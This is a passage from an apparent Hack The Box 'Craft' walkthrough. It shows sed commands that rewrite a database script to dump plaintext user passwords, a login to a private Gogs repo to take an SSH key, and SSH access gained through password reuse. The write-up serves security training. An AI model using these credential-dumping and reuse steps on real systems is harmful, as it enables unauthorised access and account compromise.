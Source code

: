 It's using pymsql to interact with the database, going to the documentation of it, we see that what we need is to use the `method fetchall()`
{{< image src="/images/htb/craft/1-rce.png" position="center" style="border-radius: 8px;" >}}
So, I change the script to do a `show tables` using `fetchall()` instead of `fetchone()`:

```console
/opt/app # sed -i 's/result \= cursor.fetchone()/sql \= \"show tables\"/' dbtest.py
/opt/app # sed -i 's/result \= cursor.fetchone()/result \= cursor.fetchall()/' dbtest.py
```

And post that, we ran the script, and we get 2 tables one that looks interesting named `user`, we modify again the sql query but to select all the records from that table:

```console
/opt/app # python dbtest.py
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
/opt/app # sed -i 's/sql \= \"show tables\"/sql \= \"SELECT * FROM user\"/' dbtest.py
/opt/app # python dbtest.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
/opt/app # 
```

So, we got the users `dinesh, ebachman and gilfoyle` and it's respective passwords, with that we go to `https://gogs.craft.htb` again and login as `gilfoyle` and we found that he has a private repo to deploy the infra called `craft-infra`

{{< image src="/images/htb/craft/1-gil.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/craft/2-gil.png" position="center" style="border-radius: 8px;" >}}

We notice there exists a `.ssh` folder, we look into it and we get a pair of public/private ssh keys:

{{< image src="/images/htb/craft/3-gil.png" position="center" style="border-radius: 8px;" >}}

We try to login via ssh as `gilfoyle` re-using the password we got earlier and we found a success (actually the first tries it failed for me, and spent some hours trying to break the id_rsa with john without success, so give a new try with trying the founded passwords):

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ssh gilfoyle@10.10.10.110 -i id_rsa


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```